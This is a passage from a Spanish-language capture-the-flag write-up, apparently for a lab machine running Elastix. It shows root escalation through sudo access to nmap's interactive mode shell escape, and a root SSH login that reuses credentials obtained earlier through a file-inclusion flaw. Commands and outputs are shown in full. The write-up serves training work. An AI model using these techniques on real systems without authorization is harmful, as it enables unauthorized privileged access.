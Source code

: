 ```bash
```

Observamos que tienemos multiples recursos que podemos ejecutar temporalmente como el usuario *root*; para este caso se utilizará *nmap*:

```bash
bash-3.2$ nmap --version

Nmap version 4.11 ( http://www.insecure.org/nmap/ )
bash-3.2$ 
bash-3.2$ sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
sh-3.2# whoami
root
sh-3.2#
```

Con esto ya somos el usuario **root** y podemos visualizar las flags.

Otro método de acceso al sistema es mediante la validación de reutilización de contraseñas; validando si con las credenciales que identificamos a partir del **LFI** nos dan acceso a través del servicio SSH como el usuario **root**.

```bash
❯ ssh root@10.10.10.7
Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```

Al ejecutar el comando `ssh root@10.10.10.7` nos aparece un error; sólo tenemos que agregar `-oKexAlgorithms=+diffie-hellman-group1-sha1` al comando para poder acceder:

```bash
❯ ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.10.10.7
The authenticity of host '10.10.10.7 (10.10.10.7)' can't be established.
RSA key fingerprint is SHA256:Ip2MswIVDX1AIEPoLiHsMFfdg1pEJ0XXD5nFEjki/hI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.7' (RSA) to the list of known hosts.
root@10.10.10.7's password: 
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# whoami
root
[root@beep ~]#
```

A este punto ya somo usuarios administradores y podemos visualizar las flags (user.txt y root.txt).
